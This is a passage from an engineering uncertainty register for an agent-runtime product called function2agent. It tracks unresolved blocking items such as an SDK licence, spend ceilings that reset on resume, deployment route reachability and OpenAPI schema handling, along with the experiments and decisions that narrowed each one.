**U-47 is added 2026-08-03 and it is the entry in this register most likely to be useful to somebody who has never heard of this product.** Everything else here is about `function2agent` — its runtime, its reachability mechanism, its spend ceiling, its evidence base. U-47 is about **the instrument every agent-evaluation project builds**: a frozen trace corpus, hash-pinned, joined to a task file at scoring time. The defect is that the hash pins the traces and not the questions, the join cannot fail, and the drift that matters leaves no value difference to detect — so the corpus rebases silently and the hash check keeps passing. **It is filed as blocking because it has already cost this project an experiment**, and because the one measurement `plan.md` OD-14 defers to production is a re-scoring of traces, which is exactly the operation that has the defect. Two things about how it was found are worth carrying separately from the defect itself. **Four independent instruments arrived at it, none of them looking for it** — and the fourth, recorded for the first time in [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md), is a postcondition verifier that knows nothing about batteries and whose *entire* false-alarm set turned out to be precisely the stale records. That makes a verifier a corpus-drift detector, which nobody designed and which is free to anyone who already has one. And **it was invisible for the corpus's whole life and then surfaced three times inside an hour**, which says more about how such defects are found than about this one: they are not found by looking, they are found when an unrelated instrument disagrees with the record and somebody chases the disagreement instead of reconciling it.

### 5.1 Blocking

| # | Unverified claim | Why it matters | How to resolve | Source |
|---|---|---|---|---|
| U-01 | ~~**Claude Agent SDK license**~~ — ✅ **RESOLVED 2026-08-02. The SDK source is MIT; the bundled CLI is not.** | **Downgraded from blocking to a scoped redistribution constraint.** Using the SDK inside our runtime is fine, since each operator brings their own Claude entitlement. But the package **bundles the Claude Code CLI** (`_cli_version.py` pins `2.1.220`; the README states it "is automatically bundled with the package"), and that binary is closed-source under Anthropic's Commercial ToS — so shipping the SDK inside an emitted agent pack redistributes it, which MIT grants no rights to. | **Done.** Verified against `examples/claude-agent-sdk-python` v0.2.128: `LICENSE` is verbatim MIT (© 2025 Anthropic, PBC), `pyproject.toml` declares `license = {text = "MIT"}` plus the OSI classifier. **Residual, now a build rule:** emitted packs declare the SDK as a peer dependency the operator installs, never vendor it. Confirm the published wheel's bundle contents before shipping, and get Anthropic's written sign-off before any distribution model that ships the CLI. | [02](./02-agent-harnesses.md) §7; verified against vendored source |
| U-02 | **Effect-classification precision is entirely unmeasured** — ⚠️ **RE-AIMED 2026-08-02 by `plan.md` OD-09: still unmeasured, no longer measurable in v1, and the thing it gated has changed shape (D-16 restated, D-22, U-43)** | ~~D-16 gates all writes on ≥ 0.98 precision, and no one has measured it on any codebase. The whole write half of the product is behind this number.~~ **Under OD-09 there is no derived `read_only` label to measure the precision *of*, so this entry cannot be resolved as written — see D-16, which is wrong as stated for the same reason. What it becomes is two entries. For v2, this stands verbatim and blocks the synthesized write surface exactly as before. For v1, the question is the precision of the *verb→tier* mapping at the D-22 interception point, which is a different and much cruder quantity, is separately tracked as U-43, and is cheap to sample.** Note the pleasant surprise buried in this entry's own resolution column below: the union-across-configurations harness that makes the verb proxy a real datapoint is **already committed**, so U-43 costs almost nothing to sample. | Phase 5. But get a *preliminary* read during Phase 0a on `adk-python`. **Corrected 2026-08-02.** This entry previously said `/openapi.json` gives HTTP verbs as a weak label, which assumed one fetch covers the recovered surface. [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) established that `/openapi.json` reports **a single deployment configuration**. Against `adk api_server` that configuration serves **27 operations**, of which **22 fall inside the 69 recovered routes** — the other 5 are framework-generated. So the label would reach **22 of 69**, leaving 47 unlabelled and skewing the labelled remainder toward the `api_server` route mix. What is now known: unioning `app.openapi()` across all five constructor configurations yields **69 operations matching the 69 recovered routes exactly** ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)), and that harness is committed, so the fix costs nothing. Two consequences for the preliminary read. It is a real datapoint again rather than a two-fifths sample, **and** it must still be reported as a verb proxy, not as effect-classification precision — the verb tells you what the framework routes, not what the handler does. | [11](./11-validation-plan.md) §8, [08](./08-auth-identity-and-secrets.md) §3.4, [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md), [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) |
| U-03 | ~~**ADK multi-provider support via LiteLLM**~~ — ✅ **RESOLVED 2026-08-02. ADK is genuinely model-agnostic; the Claude Agent SDK is not.** | **Closed for ADK, opened for the executor.** ADK 2.6.1 via `LiteLlm` drove Anthropic, OpenAI, xAI, and Google to a passing completion **and a passing tool call, including a chained two-tool sequence**, on all four. Routing economics are therefore available. But the same probe found the **Claude Agent SDK enumerates its providers as `firstParty`, `bedrock`, `vertex`, `foundry`, `anthropicAws`, `anthropicGoogleCloud`, `mantle`, `gateway` — every one a different *hosting surface for Claude models*, not a different model family.** Bedrock passthrough bills Claude tokens to AWS; it does not run Llama. Pointing it at xAI via `ANTHROPIC_BASE_URL` fails with HTTP 400 `Invalid message role`; at OpenAI or Gemini, HTTP 404. | **Done.** See [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md). **Three residuals:** (a) LiteLLM ships **no macOS wheel** from 1.92.0 on, so the probe ran on 1.91.4, the last pure-Python release — pin deliberately and confirm on the deployment platform; (b) `grok-4.3` **silently failed structured output**, returning reasoning prose around the JSON with no exception raised, so validate structured returns per (provider, model) rather than per runtime; (c) the executor decision now needs an owner call — see D-05. **⚠️ RE-OPENED IN A NEW SHAPE 2026-08-03 by `plan.md` OD-15 and OD-16, and it is re-opened rather than re-closed.** The row's own subject — *ADK multi-provider support via LiteLLM* — is retired: v1 ships neither. **The result splits and only one half travels.** *Transfers:* the four vendors' APIs support chained tool calling with the models tested, so routing economics are real. *Does not transfer:* nothing in this corpus has measured Anthropic's, OpenAI's, xAI's or Google's own SDK driving a chained tool call **in our hands**, so the production spec's **SC-010 stops being a result v1 inherits and becomes a test v1 must pass** — the conformance fixture is what closes it, and until it does, no document may cite finding 003 as evidence that the *shipped* configuration is provider-agnostic. **The reason it is not simply re-closed at the same confidence** is finding 003 result 7: the adapter this replaces referenced xAI's opaque reasoning field **zero times under every counting rule**, which is a measured non-compliance with FR-037 and one of OD-15's three grounds. **Not blocking**: it gates a test, not a decision. | [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md); [06](./06-examples-inventory.md) §4, §9; `plan.md` OD-15, OD-16; U-48 |
| U-04 | **`codegraph` SQLite schema stability across releases** | D-14 reads the schema directly. If it changes between minor versions, the analysis layer breaks silently on upgrade. | Diff the schema across the last three releases; pin a version; add a schema-hash assertion to CI. **Weak positive evidence, not a resolution:** two indexes have now been queried at different extraction versions — finding 001's at index format v1.1.1 / extraction version 24, finding 004's built fresh by codegraph 1.5.0 at extraction version 25 — and the same node kinds, edge kinds, and `signature` / `return_type` / `docstring` columns were readable in both. One version bump is not three releases, and this does not close the item. | [06](./06-examples-inventory.md) §2.4; [finding 001](../specs/001-discovery-validation/findings/001-structure-recovery.md), [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) |
| U-05 | **Anthropic WIF for a hosted multi-tenant SaaS** — documented for platform identities, not for "customer federates to your issuer" — **NARROWED 2026-08-02 by `plan.md` OD-08 (D-20), and it leaves §5.1 without being resolved. ⚠️ RECLASSIFIED 2026-08-03 by owner decision as HOSTED-TIER-BLOCKING** — annotated in place, not struck and not moved; read the marking in the next cell rather than this row's membership | ~~Determines whether BYO credentials can ever be anything better than long-lived keys in our custody.~~ **The premise is now false for v1, and that is what narrows it: under self-hosting there is no "our custody" to improve on.** The credential lives in the customer's boundary, and a customer who already has a platform identity can federate to **their own** issuer — an ordinary, documented, GA configuration that asks nothing of us. **So the limb that made this *blocking* is discharged: no v1 commitment depends on the undocumented case.** What survives, unchanged in substance, is the hosted-tier limb — whether a customer will register *our* OIDC issuer, which is still undocumented as a pattern and still a trust question rather than a technical one (O-02). **This is deliberately recorded as narrowed rather than resolved.** Nothing was measured, no documentation changed, and the day the hosted tier is scoped the entry is exactly as open as it was; what changed is that it no longer sits under a v1 commitment. ~~**It should move from §5.1 to §5.2 on the next pass** — flagged rather than moved here, because §5.1's membership is the pre-registered blocking set and thinning it is an owner action.~~ **⚠️ RECLASSIFIED 2026-08-03 by owner decision: this entry is HOSTED-TIER-BLOCKING. It stops blocking v1 and continues to block the hosted tier.** The flag above was correct in its diagnosis and wrong in its destination, and both halves are now spent — the owner action it was waiting for was taken on 2026-08-03 and is recorded as a dated annotation on `plan.md` **OD-08** rather than as a new decision row, following the precedent OD-15 through OD-21 set of annotating an existing entry where the decision adds no new product disposition, and following the executed form **U-39** gave that precedent earlier the same day. **Three parts to the reasoning, and they carry different weights.** ① **OD-08 discharged the limb that made this block v1, and by construction rather than by measurement.** Under self-hosting the credential lives in the customer's boundary, so there is no custody of ours to improve on; a customer who already has a platform identity federates to **their own** issuer, which is an ordinary GA configuration. No v1 commitment depends on the undocumented case, so nothing is left for this entry to block in v1. ② **The hosted-tier limb is untouched and is not a technical question.** Whether a customer will register *our* OIDC issuer is still undocumented as a pattern and still a trust question (O-02) — nothing was measured, no documentation changed, and no design partner was asked. ③ **The unanswered trust question stays attached to the decision it would inform**, which is the decision to ship the hosted tier, and that decision is deferred with the tier. **So nothing here weakens.** The undocumented pattern, the trust question and the design-partner conversation all travel forward intact; what changes is which product tier they gate. **The row stays in §5.1 rather than moving to §5.2**, under this section's own annotate-in-place convention and against this row's own earlier instruction: §5.2 is *high-impact, non-blocking*, and a tier-blocking entry is neither resolved nor non-blocking. | ~~Ask three design partners; this is go-to-market, not documentation.~~ **Still that, and no longer before v1.** Ask when the hosted tier is scoped. **One v1 action does fall out, and it is a design constraint rather than a question:** the broker must accept a short-lived federated token *and* a long-lived key from day one, since the self-hosted customer with a platform identity is the case that works today and the case that must keep working when the hosted tier arrives (D-20 discipline 2, D-07). | [08](./08-auth-identity-and-secrets.md) §9.1; `plan.md` OD-08; D-20; O-02 |
| U-06 | **Per-key hard *dollar* ceilings across providers** — alerts are documented, hard rejection is not verified per provider | The non-model spend cap is one of the four things that change for unattended operation. If providers only alert, we must enforce. **Sharpened 2026-08-02: the other candidate layer has now been checked and it does not enforce either** (U-30). The "build our own regardless" instruction below was written as prudence; it is now the only remaining option on the table until a provider is shown to hard-reject. | Verify per provider; **build our own ceiling regardless.** Design it against U-30's constraint as well as this one: the ceiling must be denominated in cost, and it must survive a crash and resume. | [08](./08-auth-identity-and-secrets.md) §9.2; [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) |
| U-30 | **NEWLY OPENED 2026-08-02 — no layer of the stack has been shown to enforce a spend ceiling that survives a crash and resume.** The runtime's ceiling is scoped to one invocation and resets; the providers' are unverified (U-06) | **This is the sharpest single result in [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md), and it is blocking for unattended operation rather than merely untidy.** ADK's `max_llm_calls` is genuine enforcement within an attempt — a deliberately non-terminating graph halted at exactly 3 cycles with `LlmCallsLimitExceededError`. But the counter lives on `_InvocationCostManager`, which hangs off the `InvocationContext`, which is rebuilt per attempt. **Resuming an invocation that had already exhausted a ceiling of 3 ran three more cycles, for 6 total.** An agent that crashes and retries therefore has **no effective ceiling at all**, and the failure is invisible in review because every individual attempt is compliant. Three compounding facts make it worse. The ceiling counts *model calls*, not money, and [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) measured a 40× spread in input context for identical work between two runtimes, so call count is a poor proxy for cost. There is **no token, cost, wall-clock or graph-step ceiling anywhere** in `agents/`, `runners.py` or `workflow/` — the same trap without `max_llm_calls` ran 1,292 iterations in 20 seconds. And this composes badly with the retry/denial circuit breaker that [10](./10-topology-in-practice.md) §13 names as one of the four requirements for unattended operation: the circuit breaker's retries are exactly what multiplies the cap. Read together with U-06, **both candidate layers for a hard spend cap have now been found not to supply one**, which is what makes this blocking rather than a build item. | **The build is now committed rather than proposed** — OD-01 names budget accounting across all four dimensions and surviving resume as one of the four primitives we own outright, so the question is no longer whether to build it. Sized at **4–5 days** (§2.6): a budget channel plus an enforcement plugin on `BasePlugin.before_model_callback` / `after_model_callback` for tokens and `on_event_callback` for steps, **persisted in session state rather than on the invocation context**, with a per-provider cost table that [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) showed cannot be assumed uniform. What is *not* resolved, and what keeps this open: whether that in-process channel is sufficient on its own, or whether a hard ceiling has to live outside the agent process entirely — at a proxy or a provider key — to be trustworthy against a process that crashes in ways we did not anticipate. Resolve U-06 per provider before deciding, and treat `max_llm_calls` in the meantime as a low backstop rather than a budget. **⚠️ WORSENED 2026-08-03 by `plan.md` OD-15, and it is worth being blunt that this is a step backwards.** ~~"treat `max_llm_calls` in the meantime as a low backstop"~~ — **there is no `max_llm_calls`.** v1 imports no ADK, so the resettable ceiling that at least existed and at least bounded one invocation is gone, and **nothing occupies the interim position until our own budget channel is built.** The uncertainty's substance is unchanged — no layer has been shown to enforce a spend ceiling surviving crash and resume — but the *floor* under it dropped, and the build item that fixes it is one of the four whose ADK-shaped estimate OD-15 invalidated (§2.6, U-48). **Stays blocking.** **✅ REQUIREMENT COVERAGE 2026-08-03, later the same day — the gap this entry describes is now *required* closed, which is a different thing from closed and the entry stays blocking on the difference.** The production specification's **FR-005** ([`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md)) requires per-session ceilings on **all four dimensions this entry says a ceiling must have** — cost, tokens, wall-clock time and turns — binding **cumulatively across resumes** rather than per run, with a crash forbidden to reduce the total counted. It was extended the same day to state the two things it had left unsaid and that OD-15 made load-bearing: the four ceilings are **required configuration and startup fails loudly when one is unset**, following this corpus's rule against inventing a number where no evidence bears on it (the production plan's **Q-10**, applied to FR-049's bounds first), and consumption incurred before a crash must survive it. **SC-030** measures both across at least **three** induced resumes, chosen because one resume cannot distinguish a ceiling that resets from one that holds. **Why this does not resolve the entry.** ① A requirement is not a mechanism, and this entry's own open question — whether an in-process channel suffices or a hard ceiling must live outside the agent process — is untouched. ② The cumulative property is *stated observably and measurably*; whether it is **enforceable** depends on accounting durable at a finer grain than the work it accounts for, which is exactly where `max_llm_calls` failed, and is a plan-phase choice colliding with **U-31** (crossing a durable-execution activity boundary silently loses token accounting). ③ **U-06** is still unverified per provider, so the outside-the-process option still has no measured backstop. **The change is that the gap is no longer uncovered by any requirement. It is still unbuilt and still unmeasured.** | [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) §Primitive 3; [10](./10-topology-in-practice.md) §13; U-06; `plan.md` OD-15 |
| U-26 | ~~**NEWLY OPENED 2026-08-02 — Configuration blindness.** Static analysis recovers what an application's source *declares*, not what a deployment *serves*, and no mechanism for closing that gap has been chosen~~ — ✅ **RESOLVED 2026-08-02, the same day it was opened. The mechanism is D-18, and it requires a running instance.** | **No longer blocking. Two residual holes are not closed by this and are recorded separately as U-34, U-35 and U-36 rather than left inside this entry.** The problem statement below is retained unchanged, because it is the clearest statement of why the resolution has the shape it does. **The most consequential of the three items opened by finding 004, and genuinely novel — nothing in the research corpus addresses it.** Measured on `adk-python`: scored against the union of five deployment configurations, precision is 1.0000; scored against the `adk api_server` configuration alone it is **0.3188**, because **47 of the 69 recovered routes are real, correctly-parsed source guarded by `if web:`, `if a2a:`, `if trigger_sources:`, or `if gemini_enterprise_app_name:` and are never served.** The two sets differ by a factor of **2.6** in the worst configuration measured — *retained as written; §2 rule 4 now states the same measurement as **3.1**, the ratio against the recovered set rather than against the configuration's served total, which is the framing [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) uses.* This is not a parsing defect and no better parser closes it. A tool synthesized for an endpoint the customer's deployment does not expose returns 404 **at runtime, in front of a user**, not at generation time — so it defeats the product's core claim rather than degrading it. | **Done. Resolution (b) — probe the running instance — is chosen, and the other two keep roles rather than being discarded.** [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) scored all three against the target's own machine-generated route table under **eight** deployment configurations, seven pre-registered and one post-hoc and labelled so. **(b) wins outright: precision 1.0000 and recall 1.0000 on all eight, dropping zero served operations anywhere, at the cost of one unauthenticated HTTP GET.** It is the only arm exact on all eight, including the configuration where (a) degrades, because it reports what the running process actually assembled and so cannot be environment-blind. **(a) is the fallback for targets that cannot be run**, at 1.0000 precision and recall on all seven pre-registered configurations — a real result — but priced honestly it is eight framework-specific mechanisms that predict **0.0000 operations** with all of them disabled and also with ~~`M1_class_dispatch` alone disabled~~ **either `M1_class_dispatch` or `M2_kwarg_flow` alone disabled** — *corrected 2026-08-02, late: `off-M2_kwarg_flow` predicts 2 operations of 324 at precision 0.0000, which is a collapse by the same reading ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2). C-12, U-38 and D-18 part 3 were corrected when the error was found and D-18 part 3 records that it was "corrected wherever it appears"; this cell and §7.5 were missed, so two of the five sites carried the retracted claim afterwards* — one of the eight was dead code, and it scores 0.9538 on an environment-varied configuration with a margin of less than one operation (U-35, U-38). **(c) is a complement, not a substitute**: on the pre-registered emission-time reading it scores **0.3188**, identical to doing nothing, because it declares everything. Its 1.0000 on the runtime reading is correct by construction for any target without analysing anything, which is exactly why the emission-time reading was the pre-registered gate. It is adopted anyway, on a different argument — a deployment's served set moves after the catalogue is generated — with two hard constraints (U-37). **The plan's own conditional resolves to its first limb: the product requires a running instance to be accurate.** All four parts are recorded as **D-18**, and the joint OpenAPI question E14 also owned is decided in §2.4. **Everything from here to the end of this cell is the entry as it stood before the result, retained for the record and left in its original tense.** *Three plausible resolutions, and which one is right is unresolved: (a) read the deployment's configuration as a pipeline input; (b) probe the running instance to confirm what is actually served — nearly free against an OpenAPI-publishing target, since `/openapi.json` can be fetched and intersected, and a real problem against a target that publishes nothing; (c) emit tools carrying a declared precondition that is verified on first use. Option (b) is the cheapest where it applies and covers nothing where it does not.* **Owned and scoped as of 2026-08-02.** This entry previously read "currently unowned and unscoped." It is experiment **E14 — Deployment reachability** in `plan.md`, which scores all three candidates against the same instrumented target under at least three distinct configurations, at $0, behind a **≥ 0.95 served-set precision** gate. If configuration parsing alone cannot reach it, the finding is architectural rather than cosmetic: either the product requires a running instance to be accurate, or every emitted tool carries a runtime reachability check. **E14 also absorbed a second question that shares its mechanism.** [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) demonstrated that a target's own OpenAPI schema is not merely a scoring authority but a viable pipeline *input* — where one exists, the parameter and return contract arrive free and correct, leaving static derivation needed only for exceptions and for targets that publish nothing. That is a materially different shape for the analysis layer, and it wants the same fetch from the same running instance that resolution (b) wants, so `plan.md` now decides the two together rather than paying for the fetch twice. | [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §4; [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §What this means for the product; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md); `plan.md` E14; D-18 |
| U-34 | ~~**NEWLY OPENED 2026-08-02 — the primary reachability mechanism assumes a schema endpoint that production deployments routinely disable.** Every number behind D-18 part 1 comes from a deployment publishing `/openapi.json` unauthenticated. `openapi_url=None` and auth-gated schemas are ordinary production practice and **neither was tested**~~ — ✅ **RESOLVED 2026-08-02, the same day it was opened, and it splits rather than simply closing: the reachability half resolves, and the method-level half becomes U-39** | **Resolved by E15 ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md)), and this entry's own correction of the finding it came from turned out to be right. Seven points, then the original text.** ① **The narrowing this entry made is confirmed by measurement.** Schema-free path-level reachability scored **precision 1.0000 and recall 1.0000 on `ABSENT`, `FORBIDDEN` and `EMPTY`**, identical to the schema-present control, while `R2-openapi` fell to **0.0000 recall** on all three. Configuration parsing is **not** the fallback for un-introspectable targets, and D-18 part 3's population shrinks to targets that cannot be *run*. ② **What this entry did not anticipate, and it is the real cost: the schema is an *enumerator*, not only a filter.** A probe can only ask about paths it was given; finding 010 measured **8 of 77 served operations outside the static set, two of them real `a2a` operations**, and no probe recovers them. **Accuracy transfers; coverage does not, and without the schema the size of that blindness is unmeasurable.** ③ **Cost is 67 requests against 1** on this target, one per candidate path, each a method-mismatch probe visible in the deployment's access log and error metrics. ④ **Method-level discrimination is answered, negatively, and it leaves this entry as U-39** — see below; it is the reason this resolution does not remove a blocking item from §5.1 so much as replace one. ⑤ **Contracts are answered, and the answer is worse than "degrades silently": nothing degrades.** E15 checked E4's committed harness rather than assuming, and `extract_contracts.py` accepts no schema input — the schema was only ever ground truth. So every derived component is retained (60/69, 207 parameters, 53 return types, all unchanged) and only the *ability to validate* is lost, taking finding 007's validated reading from **0.7681 to uncomputable while no visible metric moves.** Requires a per-contract `validated: false` (D-17). ⑥ **A fourth schema state belongs on this entry's hazard list and was not on it.** `EMPTY` — a 2xx response carrying `{"paths": {}}`. A pipeline splitting on whether the fetch succeeded is correct on 6 of 7 targets and reads that as `PRESENT`, emitting a catalogue of zero operations and reporting success. Four-state classification measured **7/7**. ⑦ **A target-specific note that narrows this entry's population for `adk-python` while leaving it wide for FastAPI generally**: `get_fast_api_app()` exposes no `openapi_url` argument and forwards no `**kwargs`, so **an ADK deployment cannot easily turn its schema off** — the `ABSENT` state had to be produced by removing the four schema routes from the constructed application, which is semantically what FastAPI's own switch does but is not a code path an ADK operator would execute. **Everything from here to the end of this cell is the entry as it stood before the result, retained for the record and left in its original tense.** **This sits directly under the primary recommendation, which is what makes it blocking rather than untidy — but the finding's own account of *why* overstates one half and understates the other, and the correction changes what has to be measured.** The finding says that without the schema "R2 contributes nothing and the fallback is R1-tuned," whose all-mechanisms-disabled figure is 0.0000. **For path-level reachability on a runnable target that is too pessimistic.** The same finding measured a schema-free runtime mechanism at **precision 1.0000 on all eight configurations, recall 0.9655–1.0000** — the 404/405 path-level probe of D-18 part 4, which needs no schema at all, only a reachable process. So configuration parsing is the fallback for targets that cannot be **run**, not for targets that cannot be **introspected**, and those are different populations. **Two things genuinely have no measured substitute, and they are why this is still blocking.** (1) **Method-level discrimination.** The path-level probe answers *is this path routed*, not *which verbs it serves*; the one refinement that would answer the second is the `Allow` header, which drops 24–28% of real operations silently (U-37, C-14). Whether method-level reachability is a schema-only capability is unmeasured, and it decides whether a schema-free catalogue can carry a verb at all. (2) **Contracts, which is the larger half.** D-18 part 2 makes the schema an input for parameters and return types — free and correct where it exists ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)). With no schema, contracts fall back **entirely** to static derivation, whose untuned expectation is **0.5797** (U-32), and there is no probe that recovers a request body. **And a third hazard that is not a measurement gap but a defect waiting to be written:** a pipeline that reads 404 or 401 on `/openapi.json` as "this deployment serves nothing" emits an empty catalogue and calls it a result. *Absent* and *forbidden* must be distinguished from each other and from *empty*, and conflating them is exactly the silent failure D-17 exists to forbid. **Blocking for any customer promise about targets we cannot introspect, which is a narrower and more accurate scope than "targets we cannot run."** | **Done.** E15 ran seven targets rather than the three scheduled: the four FastAPI schema states plus plain Starlette as a control and Flask/Werkzeug and Django as two genuinely different routers, at **$0.00**, with gate adjudication byte-identical across two independent full runs. **Gate 2 — schema state detected and distinguished — clears 7/7 absolutely**, on a four-state reading the plan did not ask for. **Gate 1 — schema-free path-level precision ≥ 0.95 — misses on all three pre-registered arms** (0.8750 for E14's probe design, 0.8000 for the corrected one), **and not because the schema is absent**: all four FastAPI states scored 1.0000/1.0000. It misses on the three non-FastAPI fixtures, and it misses because a path-level probe cannot answer an operation-granularity question. **That miss is U-39, which is why this resolution does not reduce the blocking count.** *The pre-result text follows:* *Scheduled as experiment E15 in `plan.md`, pre-registered before any configuration is built, at $0 — the E14 harness already exists and the first two configurations are constructor arguments. Three configurations: `openapi_url=None` on an otherwise byte-identical `web`, the schema behind a 401, and a target that publishes nothing at all. Gates: schema-free path-level precision ≥ 0.95 on every configuration; absent-versus-forbidden detection at 1.0000, absolute, because a miss there is a defect rather than a finding; and method-level recall plus retained contract components reported as measurements rather than gated, since a threshold on either would be invented rather than derived. The third configuration doubles as the first datapoint on U-37.* | [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §4, §What this does NOT license; [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md); [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md); `plan.md` E15; D-18; U-32; U-37; U-39 |
| U-39 | **NEWLY OPENED 2026-08-02 — method-level reachability may be a schema-only capability, and the only schema-free alternative is a field two decision rows forbid.** A path-level probe is exact about paths and cannot say which verbs a path serves; the `Allow` header can, and is wrong in opposite directions across routers | **This is what U-34 turned into, and it is a sharper entry because the alternatives are now enumerated and measured rather than hypothesised** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §3). Path-level probing is **exact at path granularity — 1.0000 on all seven targets** — and **cannot reach 0.95 at operation granularity on a target that gates individual methods on a shared path: 0.8000.** The route shape that does it is ordinary (one route registering `GET` unconditionally and `POST` behind a configuration flag) and is simply absent from `adk-python`, which is why E14 read 1.0000. **The only schema-free refinement available is the `Allow` header**, and across three routers it is exact on Django, under-reports by 23% on FastAPI, and over-reports on Flask (C-14). Deriving the `P-global+Allow` arm reaches **precision 1.0000 on all seven targets at recall 0.7692 — 15 of 65 real operations dropped silently**, which is precisely why D-18 part 4 forbids the header. **So the trade space has no good point: a schema-free mechanism can be accurate, complete, or safe, and only two at once.** `P-e14` is 0.8750 precision with 13 handler invocations; `P-global` is 0.8000 precision, 1.0000 recall, 0 handler invocations; `P-global+Allow` is 1.0000 precision, 0.7692 recall, 0 handler invocations. **What makes this blocking is that the decision it forces is a product decision rather than a measurement.** Either a schema-free catalogue carries paths without verbs, or it carries verbs it cannot verify, or method-level tools require an introspectable target — and each of those is a different promise to a customer. **Blocking for any promise about emitting verb-bearing tools against a target that publishes no schema.** **⚠️ NARROWED 2026-08-03 by `plan.md` OD-18 — narrowed, not resolved, and the trade space above is untouched.** OD-18 makes a published machine-readable specification an **admission criterion** for v1 ([`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md) FR-002, FR-044), so v1 declines the target rather than choosing a point in this entry's trade space. That **discharges the second of the three actions this entry recommends** — *"decide the promise explicitly"* — for v1 and for v1 only: the promise is that method-level tools require an introspectable target, stated as an admission criterion rather than left to a catalogue's small print. **What is not discharged.** The prevalence measurement is not made, so **0.8000** remains an existence proof rather than a rate; the fourth-signal question is not asked; and nothing here is measured. **The entry changes owner rather than closing** — it is now the input to any decision to widen admission, which is a v2 question, and its own first step (measuring how common the per-method-gated route shape is) is what would price that widening. **The decision was taken 2026-08-03 at the production specification's clarify session and recorded in the decision log retroactively the same day**; before that record existed this entry was narrowed by a document that cited no authority. ~~**Flagged for demotion out of the §5.1 blocking set rather than moved** — §5.1's membership is pre-registered and thinning it is an owner action, the same treatment U-05 received under OD-08.~~ **⚠️ RECLASSIFIED 2026-08-03 by owner decision: this entry is V2-BLOCKING. It stops blocking v1 and continues to block any decision to widen admission.** The flag above was correct and is now spent — the owner action it was waiting for was taken on 2026-08-03 and is recorded as a dated annotation on `plan.md` **OD-18** rather than as a new decision row, following the precedent OD-15 through OD-21 set of annotating an existing entry where the decision adds no new product disposition. **Three parts to the reasoning, and they carry different weights.** ① **OD-18 discharged the promise question, and for v1 only.** A published machine-readable specification is an admission criterion, so v1 declines the schema-less target rather than choosing a point in the trade space above; the second of this entry's three recommended actions is done, and no v1 commitment is left for it to block. ② **The prevalence measurement was never made.** Nobody has counted how often the per-method-gated route shape occurs in real codebases, so **0.8000** remains an existence proof and not a rate — this entry's *first* recommended action, untouched by OD-18 and untouched by this reclassification. ③ **The unmeasured prevalence stays attached to the decision it would inform**, which is the decision to widen admission, and that is a v2 decision. **So nothing here weakens.** The trade space, its three arms, the fourth-signal question and the unmeasured prevalence all travel forward intact; what changes is which product version they gate. **The row stays in §5.1 rather than moving to §5.2**, under this section's own annotate-in-place convention: §5.2 is *high-impact, non-blocking*, and a v2-blocking entry is neither resolved nor non-blocking. | **This does not resolve by measuring harder, and that is the point** — the trade space is mapped and no arm sits outside it. Three things would move it, in increasing order of cost. **Measure the prevalence of the deciding route shape**: a path that serves some methods and withholds others is *certain* to exist and its frequency in real codebases is *unmeasured*, so grep a corpus of applications for per-method-gated routes and count. That turns 0.8000 from an existence proof into a rate, and if the shape is rare the product decision changes. **Decide the promise explicitly and record it in D-18**, which costs nothing and is overdue: a catalogue that attaches verbs on the strength of a path-level probe is asserting something the mechanism did not verify. **And check whether a fourth signal exists at all** — a `HEAD`/`OPTIONS` response, a framework-specific introspection route, or an error body that discriminates — before accepting that method-level reachability is schema-only. None of the three costs a model call. | [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §3, §4; D-18 part 4; C-14; U-34; U-37 |
| U-41 | **NEWLY OPENED 2026-08-02 — the surviving half of the product claim rests on one observation, and its replication was offered, priced, and deliberately declined.** "Safer" is now a load-bearing claim rather than a nice-to-have, because the capability claim is gone | **This is the register's most consequential open entry, and what makes it blocking is not that the evidence is thin but that the claim it supports has been promoted.** OD-07 revises the product claim to *cheaper and safer, not more capable*, so the two halves are cost — which replicated in every family — and safety, which is **n = 1**. The observation ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) §Limb 2): on the single lookup the shell baseline failed, it did **not** fail to find the endpoint. It read the schema, found the correct endpoint and parameter, listed the category collection so it **held the correct identifiers**, then queried by display name rather than slug, and the application's filter **failed open** — `?categories=Breakfast` returned all **60** recipes where `?categories=breakfast` and the UUID each return the correct **7**, with no error and no empty result. A tool that encodes the identifier discipline cannot fail that way. **Why this is worth more than the broad claim it replaces, and simultaneously weaker:** it names a *mechanism* — correctness against an API that fails open — where the original thesis named a hypothesis, discoverability, that the same experiment falsified outright (the baseline found the right endpoint on **all 27** lookups). A mechanism is testable; the discoverability premise was not the thing that was true. **But it is one observation, on one task, on one application, found incidentally rather than sought.** The finding priced replication at roughly **$15** — a handful of tasks built deliberately around parameters that fail open, pre-registered as a *mechanism probe* and never pooled into a headline success rate — and OD-07 declined it in favour of proceeding, recording the decision so the gap is known rather than discovered later. **Blocking for any customer-facing safety claim, and for any 